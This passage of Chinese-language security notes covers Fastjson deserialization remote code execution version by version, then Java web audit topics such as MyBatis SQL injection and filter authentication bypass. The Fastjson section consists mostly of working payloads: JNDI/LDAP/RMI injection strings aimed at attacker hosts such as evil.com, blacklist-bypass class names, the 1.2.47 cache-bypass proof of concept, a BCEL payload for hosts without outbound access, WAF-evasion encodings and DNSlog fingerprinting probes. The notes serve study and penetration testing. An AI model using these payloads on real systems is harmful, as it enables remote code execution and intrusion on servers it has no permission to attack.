        }
    }
    ```

- 上⾯的反序列化过程其实很简单，根据 @type 创建完Payload对象后，会调⽤它的 setCommand ⽅法，此时即可触发笔者写下的恶意代码 Runtime.exec ，从而造成RCE。实际的漏洞也是如此，只不过笔者写的是最简单的⼀种⽅式，在⼤多数情况下的调⽤栈要⽐这复杂的多。下⾯我会通过对历史产⽣的Payload进⾏复 现，并通过POC来了解漏洞利⽤的原理，从⽽加深对Fastjson反序列化漏洞的印象

##### **Fastjson  1.2.22 - 1.2.24 RCE **

- FastJson在 1.2.22 - 1.2.24 版本中存在反序列化漏洞，主要原因FastJson⽀持的两个特性： fastjson反序列化时，JSON字符串中的 @type 字段，⽤来表明指定反序列化的⽬标恶意对象类。

- fastjson反序列化时，字符串时会⾃动调⽤恶意对象的构造⽅法， setter ⽅法， getter ⽅法， 若这类⽅法中存在利⽤点，即可完成漏洞利⽤

- **主要存在三种利用⽅式：**

    -  JdbcRowSetImpl(JNDI) 。
    - TemplatesImpl(Feature.SupportNonPublicField)，限制太大，要求原来的代码，传入了Feature.SupportNonPublicField。
    - bcel传入字节码，fastjson不出网时候利用

- **JNDI && JdbcRowSetImpl利⽤链：**

    - jndi利用对jdk版本是有限制的。

    - poc：

        - ```java
            package org.example;
            
            import com.alibaba.fastjson.JSON;
            public class java1_2_24 {
                public static void main(String[] args) {
                    String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.50.183:1389/8kk9hw\", \"autoCommit\":true}";
                    JSON.parse(PoC);
                }
            }
            ```

        - @type ：指定恶意利⽤类为 com.sun.rowset.JdbcRowSetImpl 

        - dataSourceName ：指定 RMI / LDAP 恶意服务器，并调⽤ setDataSourceName 函数 

        - autoCommit ：调⽤ setAutoCommit 函数。

        - `JdbcRowSetImpl` 源码分析

            - 这个类存在jre里面，和jdbc有关

            - ```java
                    public void setAutoCommit(boolean var1) throws SQLException {
                        if (this.conn != null) {
                            this.conn.setAutoCommit(var1);
                        } else {
                            this.conn = this.connect();
                            this.conn.setAutoCommit(var1);
                        }
                
                    }
                ```

            - 在该⽅法中会调⽤ connect ⽅法：

            - ```java
                 protected Connection connect() throws SQLException {
                  if (this.conn != null) {
                  	return this.conn;
                  } else if (this.getDataSourceName() != null) {
                  	try {
                  		InitialContext var1 = new InitialContext();
                  		DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                 ```

            - connect ⽅法中存在 lookup 的调⽤，存在JNDI注⼊，因为 dataSourceName 是我们可控的，所以思路很明确，利⽤JNDI注⼊来攻击，实际利⽤的⽅式有好⼏ 种，⽐如RMI、LDAP中的反序列化等，但是与Fastjson⽆关。

    - **还有一个poc**

        - ```
              
            {
                "a":{
                    "@type":"com.sun.rowset.JdbcRowSetImpl",
                    "dataSourceName":"rmi://ip:9999/Test",
                    "autoCommit":true
                }
            }
            ```

        - 根据我们上面分析parse源码和自己调试，value的对象会重新进入parse方法中，也就是和上一个poc一样。

        - **有时候第一个poc没用，第二个有用，为什么呢？**
    
            - 是因为这时候，后台用的是`parseObject(String text, Class clazz)`.比如后台开发使用fastjson的注解形式开发的,底层就是`parseObject(String text, Class clazz)`
            - **这也我们得到的Deserializer是clazz的Deserializer，这时候我们传入别的类就会报类型不匹配错误。**
            - 但是如果我们再外面添加一层，这样外面的可以解析，里面的是自省方式解析，还是和原本parse(str)方式一样（可以自己调试代码查看）
    
        - demo
    
            - ```java
                package fastjson;
                import com.alibaba.fastjson.JSON;
                class User{
                    private String name;
                    private int age;
                    private Flag flag;
                    public User(){
                        System.out.println("User constructor has called.");
                        this.name = "p1g3";
                        this.age = 19;
                        this.flag = new Flag();
                    }
                    public String getName() {
                        System.out.println("getName has called.");
                        return name;
                    }
                    public void setName(String name) {
                        System.out.println("setName has called.");
                        this.name = name;
                    }
                    public int getAge() {
                        System.out.println("getAge has called.");
                        return age;
                    }
                    public void setAge(int age) {
                        System.out.println("setAge has called.");
                        this.age = age;
                    }
                    public Flag getFlag() {
                        System.out.println("getFlag has called.");
                        return flag;
                    }
                    public void setFlag(Flag flag) {
                        System.out.println("setFlag has called.");
                        this.flag = flag;
                    }
                    @Override
                    public String toString() {
                        return "User{" +
                                "name='" + name + '\'' +
                                ", age=" + age +
                                ", flag=" + flag +
                                '}';
                    }
                }
                class Flag{
                    private String flag;
                    public Flag(){
                        System.out.println("Flag constructor has called.");
                        this.flag = "flag{d0g3_learn_java}";
                    }
                    public String getFlag() {
                        System.out.println("getFlag has called.");
                        return flag;
                    }
                    public void setFlag(String flag) {
                        System.out.println("setFlag has called.");
                        this.flag = flag;
                    }
                }
                public class Fj1_2_24 {
                    public static void main(String[] args) {
                        String PoC = "{\"a\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://10.13.138.57:1389/klw4lk\", \"autoCommit\":true}}";
                        User user = JSON.parseObject(PoC, User.class);
                
                    }
                }
                
                ```

- 

##### 1.2.25-1.2.41

- 官⽅在1.2.25版本更新中，对1.2.22-1.2.24版本漏洞进⾏了修补。将之前默认开启的 `autoType` 设置为**默认关闭,也就是false**.

    - 手动开启autoType

    - ```java
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        ```

- 1.2.25版本后对 `@type` 的处理会优先调⽤ `checkAutoType` ⽅ 法：

- **autoTypeSupport选项**

    - 当`autoTypeSupport`为false时候.(默认)

        -  `checkAutoType`方法的最后会直接抛出异常

            - ```java
                if (!autoTypeSupport) {
                	throw new JSONException("autoType is not support. " + typeName);
                }
                ```

        - 但在前面,会有提前return的情况.这时候的逻辑是: **要求不匹配到黑名单，同时必须匹配到白名单的class,这样会提前return,就能正常反序列化,白名单默认为空**.但是这样poc就没用了,我们的类不是白名单里面的类

            - ```java
                        if (!autoTypeSupport) {
                            for (int i = 0; i < denyList.length; ++i) {
                                String deny = denyList[i];
                                if (className.startsWith(deny)) {
                                    throw new JSONException("autoType is not support. " + typeName);
                                }
                            }
                            for (int i = 0; i < acceptList.length; ++i) {
                                String accept = acceptList[i];
                                if (className.startsWith(accept)) {
                                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
                    
                                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                                    }
                                    return clazz;
                                }
                            }
                        }
                ```

    - 当`AutoTypeSupport为True`时候会匹配黑名单,他会判断类名是否以⿊名单的内容开头,所以我们绕过黑名单就行了。

        - ```java
                    if (autoTypeSupport || expectClass != null) {
                        for (int i = 0; i < acceptList.length; ++i) {
                            String accept = acceptList[i];
                            if (className.startsWith(accept)) {
                                return TypeUtils.loadClass(typeName, defaultClassLoader);
                            }
                        }
                
                        for (int i = 0; i < denyList.length; ++i) {
                            String deny = denyList[i];
                            if (className.startsWith(deny)) {
                                throw new JSONException("autoType is not support. " + typeName);
                            }
                        }
                    }
            ```

        - 

- 1.2.25-1.2.41绕过:

    - 所以接下来所谓的绕过都是在服务端显性开启 `AutoTypeSupport`为True的情况下进行的。（这是一个很大的限制条件）

    - 下个断点,看一下黑名单有哪些

        - ```java
            denyList = {String[22]@620}
            0 = "bsh"
            1 = "com.mchange"
            2 = "com.sun."
            3 = "java.lang.Thread"
            4 = "java.net.Socket"
            5 = "java.rmi"
            6 = "javax.xml"
            7 = "org.apache.bcel"
            8 = "org.apache.commons.beanutils"
            9 = "org.apache.commons.collections.Transformer"
            10 = "org.apache.commons.collections.functors"
            11 = "org.apache.commons.collections4.comparators"
            12 = "org.apache.commons.fileupload"
            13 = "org.apache.myfaces.context.servlet"
            14 = "org.apache.tomcat"
            15 = "org.apache.wicket.util"
            16 = "org.codehaus.groovy.runtime"
            17 = "org.hibernate"
            18 = "org.jboss"
            19 = "org.mozilla.javascript"
            20 = "org.python.core"
            21 = "org.springframework"
            ```

    - 他会判断类名是否以⿊名单的内容开头，如果是则抛出异常，因为我们使⽤的类为 `com.sun` ，所以能够成功命中规则，导致这⾥没能正确加载类。

- 之前在parse分析过loadClass的⼀些特性，如果类以 `L...;` 或者以 [ 这种字符开头时，则在 loadClass 内部会将这些字符进⾏截断，⽐如

    - ```java
        Lcom.sun.; => com.sun.       L...;可以多次写  比如LLL....;;;
        [com.sun. => com.sun.
        ```

    - 利⽤这种解析差异，就可以绕过这次的 checkAutoType 函数：

        - ```json
            {"a":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://localhost:1389/Object","autoCommit":true}}
            
            
            {"a":{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true]}}
            ```


##### 1.2.42安全补丁

- 开发者为了增加安全分析的难度，将⿊名单中的类明⽂变成了类Hash进⾏⽐较判断。 `/com/alibaba/fastjson/parser/ParserConfig.java`

    - 不过已经不需要⾃⼰去折腾了，github已经[有项⽬](https://github.com/LeadroyaL/fastjson-blacklist)汇总了类名-类Hash之间的对应关系

- 修复方式

    - 无非就是针对于 `L` 以及 ; 以及 `[` 的修复，但是这一次修复时只修复了 `L` ，⽽且修复⽅式⼗分奇葩：

        - 判断了className前后是不是 `L` 和 ; ，如果是，就截取第⼆个字符和到倒数第⼆个字符。

            - ```
                        if ((((BASIC
                                ^ className.charAt(0))
                                * PRIME)
                                ^ className.charAt(className.length() - 1))
                                * PRIME == 0x9198507b5af98f0L)
                        {
                            className = className.substring(1, className.length() - 1);
                        }
                ```

- 绕过：
    - 绕过⽅式为类名开头两个 L ，结尾两个 ; ，这样删除⼀次开头结尾后的类名 为 `Lcom.sun.rowset.JdbcRowSetImpl;` ，不会触发⿊名单。

    - 同时使用`[`也可以绕过

    - ```json
        {"a":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://localhost:1389/Object","autoCommit":true}}
        
        
        {"a":{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true]}}
        ```

##### 1.2.43安全补丁

- 先判断类名是否符合 L----; 形式（ LL-----;; 以及多次重复也判断符合），若符合，则进⼀步精确判断类名是否为 LL-----;; 形式：
    -  符合，就直接抛出异常，这⾥就过滤了两次及以上的开头和结尾的攻击类名。 
    - 不符合，处理同上版本，删除开头和结尾的字符得到类名，传⼊⿊名单判断。 后续的处理和前⾯版本基本相似。
    
- 绕过

    - 此时不可以使⽤ `L----;` 类型，但是同时`[`也可以绕过,并且变化了 `[{` ，为了反序列化解析的时候不会产⽣异常。

    - ```java
        {"a":{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true]}}
        ```


##### 1.2.44-1.2.45安全补丁:

- 修复了1.2.43版本中 autoTypeSupport为 true时，恶意类名前添加 `[`的引发安全问题。

- 对 `com.sun.rowset.JdbcRowSetImpl` 类的利⽤陷⼊了困境，于是诞⽣了有⼀定限制的新 Mybatis 利 ⽤链，可以直接绕过⿊名单。

- POC

    - ```java
        String PoC = "
        {\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"prope
        rties\":{\"data_source\":\"rmi://localhost:1099/Exploit\"}}";
        ```


##### 1.2.46-1.2.47安全补丁

- 补丁：
    - 把ibatis加入黑名单
- 绕过：
    - 主要使⽤了 checkAutoType 函数处理逻辑上的⼀些缺陷并结合新的 java.lang.Class 利⽤链，利⽤ 缓存 mappings 从⽽绕过了⿊⽩名单的限制加载 com.sun.rowset.JdbcRowSetImpl 类。
    - **通杀payload！: 无需AutoTypeSupport，没有黑白名单要求。**

##### Fastjson < =1.2.47 通杀poc

- 在上⾯的loadClass已经没有办法绕过时，有师傅挖到了⼀种⽆需开启 autoType 也能RCE的⽅式-缓存绕过，具体POC如下：

    - ```java
        {
            "a":{
                "@type":"java.lang.Class",
                "val":"com.sun.rowset.JdbcRowSetImpl"
            },
            "b":{
                "@type":"com.sun.rowset.JdbcRowSetImpl",
                "dataSourceName":"rmi://evil.com:9999/Exploit",
                "autoCommit":true
            }
        }
        ```

    - demo:

        - 

        - ```
            package fastjson;
            
            import com.alibaba.fastjson.JSON;
            import com.alibaba.fastjson.parser.ParserConfig;
            
            public class Fj1_2_47 {
                public static void main(String[] args) {
                    //ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
                    String PoC = "[{\n" +
                            " \"@type\": \"java.lang.Class\",\n" +
                            " \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                            " },\n" +
                            "{\n" +
                            " \"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\n" +
                            " \"dataSourceName\": \"ldap://10.13.138.57:1389/klw4lk\",\n" +
                            " \"autoCommit\": true\n" +
                            " }\n" +
                            "]";
                    JSON.parse(PoC);
                }
            }
            ```

- 在 Fastjson 对 `@type` 进⾏解析时，会先判断该类是否在⽩名单内，是就直接放⾏⽽不进⾏后续判断，此时第⼀次获取到的Class为 java.lang.Class ，该类对应的 Deserializer 为 MiscCodec ，在后续会调⽤其 deserialize ⽅法，在该⽅法中会⾸先获取到 val 所对应的值

    - 

    - 这⾥的 objVal 即为 com.sun.rowset.JdbcRowSetImpl ，最后返回的是通过loadClass得到的该val所对应的Class对象：
        - 

- 由于Fastjson具有缓存机制，所以默认会将每次 deserializer ⽅法获取到的value缓存在⼀个Map中：

    - 

- 在第⼆次进⾏ checkAutoType ⽅法时，由于并没有开启 autoType 也没有expectClass，所以会暂时不进⾏第⼀次的⿊名单检查
    - 

- 此时会直接从缓存中通过Name来获取Class对象，⽽前⾯通过 java.lang.Class 已经把该Class对象存⼊缓存了，此时可以正常获取到Class对象，于是就绕过 了 autoType 以及⿊名单
- **对于这次绕过的修复⽅式是将 mapping 的缓存默认设置为False，这就导致攻击者没有办法从缓存中获得类，同时也⽆法绕过 autoType 了。**

##### fastjson<=1.2.68：

- expectClass绕过AutoType

  - 找实现了AutoCloseable接⼝的⼦类中的危险操作。，并且不在黑名单中；
  -  ```json
       {"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
       {"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
       {"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://localhost:1389/Exploit", "value": {"$ref":"$.value"}}
       
       ```

- 读文件

    - ```
        ```

    - 

- **并且从这个版本(1.2.68)开始，Fastjson 引入了safeMode功能，完全禁用autoType。所有的安全修复版本sec10也支持SafeMode配置。**

    - 代码中设置开启SafeMode如下：

      - ```java
        ParserConfig.getGlobalInstance().setSafeMode(true);
        ```

      - 开启之后，就完全禁用AutoType即 `@type`了，这样就能防御住Fastjson反序列化漏洞了。


- 修复方式简单粗暴，将j`ava.lang.Runnable`，`java.lang.Readable`和`java.lang.AutoCloseable`加 入了黑名单

##### Fastjson 1.2.80 及之前版本存在 Throwable 反序列化漏洞

> 浅蓝师傅

- Fastjson 1.2.80 及之前版本使用黑白名单用于防御反序列化漏洞，经研究该防御策略在特定条件下可绕过默认 autoType 关闭限制，攻击远程服务器，风险影响较大。建议 Fastjson 用户尽快采取安全措施保障系统安全。

##### fastjson不出网如何利用

- https://www.cnblogs.com/R0ser1/p/15918626.html#%E5%89%8D%E8%A8%80

- 利用BCEL

- 环境

    - Fastjson < =1.2.47 

- poc

    - ```json
        {
            {
                "aaa": {
                        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                    //这里是tomcat>8的poc，如果小于8的话用到的类是
                    //org.apache.tomcat.dbcp.dbcp.BasicDataSource
                        "driverClassLoader": {
                            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                        },
                        "driverClassName": "$$BCEL$$$l$8b$I$A$..."
                }
            }: "bbb"
        }
        
        ```

- 调用了get方法

    - 首先在`{“@type”: “org.apache.tomcat.dbcp.dbcp2.BasicDataSource”……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为bbb
    - 将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法：
    - 而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。然后会以字符串的形式输出出来。所以会调用到`getConnection`方法

##### fastjson过waf

- Fastjson默认会去除键、值外的空格、 \b 、 \n 、 \r 、 \f 等，同时还会⾃动将键与值进⾏unicode与⼗六进制解码。 这意味着下⾯的payload可以转换为多种形式

    - ```json
        {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        { "@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        {/*p1g3*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        {\n"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        {"@type"\b:"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        {"\u0040\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit
        ":true}
         {"\x40\x74\x79\x70\x65":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
        ```

- 不管是对键还是对值，都可以⽤ unicode 以及⼗六进制的⽅式进⾏Bypass，特别的，这对于⼀些只ban @type 的WAF尤为好⽤。

-  对于这种⽅式的绕过，是因为Fastjson内部会进⾏⼀些去除、解码的操作，所以不看源码肯定是不知道的，所以我个⼈建议⼤家在学习某个漏洞时，还是要对源 码进⾏调试⼀下，调试的过程中不仅能加深对某个漏洞的理解，也能了解该漏洞的调⽤过程，对个⼈来说是有⾮常⼤的好处的。

##### **fastjson版本探测：**

> https://mp.weixin.qq.com/s/5mO1L5o8j_m6RYM6nO-pAA
>
> https://github.com/safe6Sec/Fastjson

- fastjson版本

    - 1.2.4（2015/5/10）—1.2.22（2016/10/10）—1.2.24（2017/1/19）——1.2.83（2022/5/23）

    - fastjson反序列化漏洞起始于1.2.22版本

- 对于fastjson反序列化漏洞的利用，**第一步要做的事情，就是想办法去判断fastjson的版本号**，因为不同版本的fastjson漏洞利用方式有所不同，比如说早期的版本1.2.x、后期的1.2.47之前版本、后期的1.2.68之前版本、最新的1.2.80版本漏洞等等。如果不能区分版本号的话，那就只能把各种POC批量打一圈了，这样做也无可厚非，但是在实战过程中，一旦漏洞利用不成功，很难准确判断原因是什么，可能是因为waf原因，可能是fastjson版本过低或者过高，可能是有openrasp在等等，无法对症下药。

- **判断方法分类**

    - 判断漏洞是否存在，无非是以下几种方法：

    - **显错判断**

        - 想办法使服务器组件抛出异常，也就是报错，在报错中得到我们想要的信息。

        - 这个方法来自于浅蓝，两个POC如下，提交一下两个POC，会抛出异常，有时候会显示出fastjson版本号来。

            1. `{"@type": "java.lang.AutoCloseable"`

            2. `["test":1]` 

            3. 输入一些乱码字符，让web应用报错，有时候也会带出来版本号。
            4. 第2个POC成功率不高，但是实战中成功过几次。

    - **DNS请求判断**

        - 想办法触发一个DNS请求，前提是服务器出网，并且外围设备开放了DNS协议，然后你的dnslog服务地址没被监控设备拦截；

        - ```json
            #以下POC出网，说明fastjson<=1.2.47
            {"name":{"@type":"java.net.InetAddress","val":"1247.xxxxx.dnslog.cn"}}
            #以下这个POC出网，说明fastjson>=1.2.37
            {{"@type":"java.net.URL","val":"http://weffewfddd.dnslog.cn"}:"aaa"}
            
            #以下这个POC出网，证明fastjson版本号1.1.16<=version<=1.2.24
            {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxxdsf.dnslog.cn:9999/POC","autoCommit":true}}
            
            #以下这几个POC，只能证明fastjson出网，无法判断fastjson是否存在反序列化漏洞，因为最新的打了补丁的fastjson也是能发起DNS请求的。这是很多新手，误以为能DNS出网，就认为存在fastjson漏洞，这是不正确的。
            
            {"@type":"java.net.Inet6Address","val":"sdffsd.dnslog.cn"}
            {"@type":"java.net.Inet4Address","val":"xxxxx.dnslog.cn"}
            {"@type":"java.net.InetSocketAddress"{"address":,"val":"wefewffw.dnslog.cn"}}
            
            #以下这个POC比较不错，是之前从天眼设备上抓到的，实战中用一用会有意想不到的效果。
            
            {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://allmet.dnslog.cn"}}""}
            Set[{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}]
            Set[{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}
            {{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}:0
            ```

    - **TCP、UDP端口请求判断**

        - **这里不止一个人问过我，用DNS请求直接判断就可以了，为啥还得用端口来判断呢？**这里我举一个例子，如果一个内网机器，它没配DNS的话，然后机器又是出网的，dnslog是收不到请求的，那么只能TCP或者UDP来判断了，这种情况我遇到过好几次了）。

    - **延迟判断**

        - 想办法使其触发一个延迟。可以执行Java的sleep代码，可以像mysql注入那样计算一个公式bench.mark(5000000,m.d5( 'test' ))，也可以发起一个轻微的DoS请求。

        - **jndi请求延迟**

            - 适用于1.2.47之前版本的fastjson

                - 以下是一个经过unicode编码的payload，一定程度上可以绕过一些waf，**后续更多的fastjson绕waf方法，会专门写一篇文章讲解**。

                - 原理同ssrf漏洞。请求本机已开放端口不延时，请求不开放的端口则延时。访问一个内网地址127.0.0.1 会瞬间返回，那么证明这个POC可用，也间接证明fastjson版本是1.2.47之前的版本。那么在不出网的情况下，可以借助这个POC的延迟效果，知道目标fastjson是<=1.2.47的，进而可以花时间和精力去构造POC实现回显，或者直接打一个内存马。

                - ```json
                    {"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://11.111.22.222/test111","autoCommit":true}}
                    ```

            - 以下这个POC延迟，证明fastjson版本号**1.1.16<=version<=1.2.24**

                - `{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://137.30.0.1:9999/POC","autoCommit":true}}`

        - **DOS漏洞触发延迟**

            - 这个POC来自于浅蓝，POC中的aaa的长度越长，触发延迟效果越明显，如果有延迟效果，那么证明fastjson版本**<=1.2.59**，间接证明fastjson版本<=1.2.68，这个非常重要，这说明，这个fastjson是有可能拿下权限的，值得我们在实战中花很多精力去研究它。

                注：**此POC慎用，不确定是否会影响业务系统，我一般实战中，是逐步增加a的数量的，切不可生搬硬套，输入一大堆a**

            - 

**总结**

- ```json
    #报错：
    {"@type": "java.lang.AutoCloseable"
    ["test":1] 
    {
    
    #DNS
    #以下POC出网，说明fastjson<=1.2.47
    {"name":{"@type":"java.net.InetAddress","val":"1247.xxxxx.dnslog.cn"}}
    #以下这个POC出网，说明fastjson>=1.2.37
    {{"@type":"java.net.URL","val":"http://weffewfddd.dnslog.cn"}:"aaa"}
    #以下这个POC出网，证明fastjson版本号1.1.16<=version<=1.2.24
    {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxxdsf.dnslog.cn:9999/POC","autoCommit":true}}
    
    #以下这几个POC，只能证明fastjson出网，无法判断fastjson是否存在反序列化漏洞，因为最新的打了补丁的fastjson也是能发起DNS请求的。这是很多新手，误以为能DNS出网，就认为存在fastjson漏洞，这是不正确的。
    {"@type":"java.net.Inet6Address","val":"sdffsd.dnslog.cn"}
    {"@type":"java.net.Inet4Address","val":"xxxxx.dnslog.cn"}
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"wefewffw.dnslog.cn"}}
    
    #以下这个POC比较不错，是之前从天眼设备上抓到的，实战中用一用会有意想不到的效果。
    {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://allmet.dnslog.cn"}}""}
    Set[{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}]
    Set[{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}
    {{"@type":"java.net.URL","val":"http://allmet.dnslog.cn"}:0
    
    ```

##### fastjson poc总结

> https://github.com/safe6Sec/Fastjson  poc
>
> https://github.com/a1phaboy/FastjsonScan.git   fastjson利用工具


## java web常见漏洞

> https://www.freebuf.com/articles/web/289863.html   java-sec-code
>
> https://github.com/proudwind/javasec_study

### 1. sqli

java是一门强类型的语言，所以数字型注入一般很少出现，但还是要有必要的类型转换。

- 比如通过HttpServletRequest的getParameter方法获取到的参数的类型都是String。
- `int id = Integer.valueof(req.getParameter("id"));`

#### 基本的sql执行函数：

- | Sink类                                     | Sink方法       |
  | ------------------------------------------ | -------------- |
  | java/sql/Statement                         | execute        |
  | java/sql/Statement                         | executeQuery   |
  | java/sql/Statement                         | executeUpdate  |
  | org/springframework/jdbc/core/JdbcTemplate | update         |
  | org/springframework/jdbc/core/JdbcTemplate | execute        |
  | org/springframework/jdbc/core/JdbcTemplate | query          |
  | org/springframework/jdbc/core/JdbcTemplate | queryForStream |
  | org/springframework/jdbc/core/JdbcTemplate | queryForList   |
  | org/springframework/jdbc/core/JdbcTemplate | queryForMap    |
  | org/springframework/jdbc/core/JdbcTemplate | queryForObject |

- **Mybatis的两种传参方式**:

  - 在Mybatis下有两种传参方式，分别是${}以及#{}，其区别是，
  - 使用 `${}`的方式传参，mybatis是将传入的参数直接拼接到SQL语句上，
  - 二使用 `#{}`传参则是和JDBC一样转换为占位符来进行预编译

    ```java
    @Select("select * from users where username = #{username}")
    User findByUserName(@Param("username") String username);
    
    @Select("select * from users where username = '${username}'")
    List<User> findByUserNameVuln01(@Param("username") String username);
    ```

#### 漏洞挖掘示例：

- 做过php代码审计的师傅 在审sql的时候 往往是搜索一些关键字，如 select update insert order by like等关键字，那么在java中也是一样的，不过多了一个特殊字符 `$`
- 在php中 sql语句是直接写出来  但是在java中 很多框架是集成了数据库，因此很少会见到sql语句了。
  最常用的mybatis中

  - `#{}`告诉 MyBatis 创建一个预编译语句（PreparedStatement）参数，在 JDBC 中，这样的一个参数在 SQL 中会由一个“?”来标识，并被传递到一个新的预处理语句中，
  - `${}` 仅仅是纯粹的 string 替换，在动态 SQL 解析阶段将会进行变量替换，类似于直接替换字符串，会导致SQL注入产生。
- 全局搜索 查找 `${ `：从代码到入口

  - 推荐一个插件 `free mybatis tool`，可以从mapper文件追踪到接口类。（sql语句要么写在注解里面，要么写在mapper.xml文件里面。）
  - 
  - 
  - crtl + 鼠标（找到调用关系） 持续点击向上寻找 直到找到xxxController层
    - 
    - UserService.java的UserService类的select方法调用了该sql语句，再找哪个Controller调用该UserService类的select方法。
    - 
    - 
    - 一直找 然后到达 ResourceController.java文件
    - 然后再去找到这段的方法 看看有没有什么路径 以便于快速定位到web层，然后分析调用链，是否存在漏洞，有没有过滤之类的，能否绕过。或者直接sqlmap跑。

### 未授权：

在测试后台的时候，我经常喜欢删除cookie，来检测是否存在未授权
代码中 存在过滤器，但只是存在登录验证，并没有存在其他的验证(因为就这几行代码，不可能对全部功能做判断)

学过过滤器的同学 都知道，过滤器默认有三个方法 init dofilter destory

```jav
init 方法就是在初始化的时候 运行里面的代码
dofilter 是自己写的逻辑代码
destory 程序关闭时 运行代码
```

找dofilter方法。或者直接翻filter目录

```java
@WebInitParam配置多个InitParam，使某些页面不被拦截。
当我去访问这些资源文件或者登录页面 就不会被拦截

@WebFilter(filterName = "LogCostFilter", urlPatterns = {"/*"},
        initParams = {@WebInitParam(name = "ignoredUrl", value = ".css#.js#.jpg#.png#.gif#.ico"),
                      @WebInitParam(name = "filterPath",
                              value = "/user/login#/user/registerUser#/v2/api-docs")})
```

```java
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest servletRequest = (HttpServletRequest) request;
        HttpServletResponse servletResponse = (HttpServletResponse) response;
        String requestUrl = servletRequest.getRequestURI();
        //具体，比如：处理若用户未登录，则跳转到登录页
        Object userInfo = servletRequest.getSession().getAttribute("user");
        if(userInfo!=null) { //如果已登录，不阻止
            chain.doFilter(request, response);
            return;
        }
        if (requestUrl != null && (requestUrl.contains("/doc.html") ||
            requestUrl.contains("/register.html") || requestUrl.contains("/login.html"))) {
            chain.doFilter(request, response);
            return;
        }
        if (verify(ignoredList, requestUrl)) {
            chain.doFilter(servletRequest, response);
            return;
        }
        if (null != allowUrls && allowUrls.length > 0) {
            for (String url : allowUrls) {
                if (requestUrl.startsWith(url)) {
                    chain.doFilter(request, response);
                    return;
                }
            }
        }
        servletResponse.sendRedirect("/login.html");
    }
```

比如项目只存在上述代码的filter。第二个if，如果url里面包含（/doc.html，/register.html，/login.html）就放行请求。

那么我们可以使用url的相对路径，`xxxx/login.html/../user`来进行绕过。先登录 查看某个功能 再去抓包进行路径绕过。

**越权删除用户**

- 全局搜索delete 或者UserController 一般就会定位到相关代码

### 2. XXE：

#### 函数

java解析xml的方法有多种，比较常见的有四种：DOM、DOM4J、JDOM 和SAX。

